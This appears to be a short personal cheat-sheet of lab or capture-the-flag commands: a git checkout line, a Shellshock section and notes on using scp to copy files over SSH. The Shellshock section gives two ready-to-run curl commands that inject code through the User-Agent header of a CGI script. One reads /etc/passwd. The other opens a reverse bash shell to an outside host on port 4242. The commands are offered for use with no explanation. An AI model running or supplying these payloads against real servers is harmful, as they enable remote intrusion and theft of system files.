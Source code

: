     git checkout a3d30a7d0510dc6565ff9316e3fb84434916dee8



## Shell Shock Vernability

    curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.10.155.108//cgi-bin/test.cgi
    
    curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.8.94.78/4242 0>&1' http://10.10.195.105/cgi-bin/test.cgi


## Scp commands for download and upload files through ssh

    scp index.html alex@10.10.101.79:/home/alex  (to put files into other machine)[replace * {in place of index.html} to upload all files in that folder]
    
    scp alex@10.10.101.79:/home/alex .  (to download files from other machine)[. means to this floder]


